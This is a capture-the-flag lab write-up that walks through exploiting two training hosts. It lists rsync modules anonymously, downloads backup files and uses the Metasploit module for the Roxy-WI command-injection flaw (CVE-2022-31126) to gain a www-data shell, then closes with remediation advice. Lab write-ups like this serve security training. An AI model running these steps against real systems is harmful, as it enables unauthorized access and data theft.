# CTF Report: The Metasploit Framework II

**Classification:** Host & Network Penetration Testing / The Metasploit Framework<br>
**Target 1:** target1.ine.local (192.185.144.3) — RSYNC (873)<br>
**Target 2:** target2.ine.local (192.185.144.4) — Ubuntu, Apache 2.4.52, Roxy-WI<br>
**Objective:** Capture four flags.

## 1. Executive Summary

Target 1 exposes an **RSYNC** daemon whose banner leaks the first flag and whose backup
module holds a spreadsheet with the second. Target 2 runs **Roxy-WI**, vulnerable to an
**unauthenticated command-injection RCE** (CVE-2022-31126); exploiting it gives a `www-data`
shell, and the third and fourth flags are found on the filesystem and in a scheduled cron
job.

## 2. Target 1 — RSYNC

```bash
ping -c 4 target1.ine.local
db_nmap -sV 192.185.144.3
services
```







Port 873 runs **rsync (protocol 31)**.



### Flag 1 — RSYNC Banner

Listing the rsync modules reveals a module name that embeds the flag.

```bash
rsync rsync://192.185.144.3/
# backupwscohen   FLAG1_7027f793950b47d497624c68fa45521c
```



> **Flag 1:** `7027f793950b47d497624c68fa45521c`

### Flag 2 — RSYNC Files

Downloading the `backupwscohen` module's contents.

```bash
rsync -av rsync://192.185.144.3/backupwscohen ./loot
```



The second flag is inside the XLSX spreadsheet.

```
Flag 2: 3fea50b35c734b08a6726a9e646589f4
```



## 3. Target 2 — Roxy-WI

```bash
ping -c 4 target2.ine.local
db_nmap -sV 192.185.144.4
services
```







Ports 80/443 run **Apache httpd 2.4.52**.



Browsing the site downloads a Python file; the webapp is reachable and accepts `Admin/Admin`.







The application is **Roxy-WI**.



### Flag 3 — Roxy-WI RCE

```bash
search roxy-wi
use exploit/linux/http/roxy_wi_exec     # Roxy-WI < 6.1.1.0 unauth RCE (CVE-2022-31126)
set RHOSTS 192.185.144.4
exploit
```





A `www-data` shell opens; the third flag is in `/`.

```bash
shell
cat /flag3.txt
# 0d9efbce31df41f695090e94b0c566ce
```





> **Flag 3:** `0d9efbce31df41f695090e94b0c566ce`

### Flag 4 — Scheduled Job

Inspecting the scheduled jobs in `/etc/cron.d/` reveals a cron entry that echoes the flag.

```bash
cd /etc/cron.d
cat *
# * * * * * www-data echo "FLAG4_797617b1a61b4343a6e5b8d248cd655e"
```



> **Flag 4:** `797617b1a61b4343a6e5b8d248cd655e`

## 4. Remediation Recommendations

1. **Lock down RSYNC** — require authentication, disable anonymous module listing, and never
   expose backup data (or flag-bearing banners) publicly.
2. **Patch Roxy-WI** to ≥ 6.1.1.0 (CVE-2022-31126) and change default credentials
   (`Admin/Admin`).
3. **Run the webapp with least privilege** and avoid storing secrets in world-readable cron
   jobs / filesystem roots.
4. **Restrict and monitor** both services; alert on command-injection patterns.
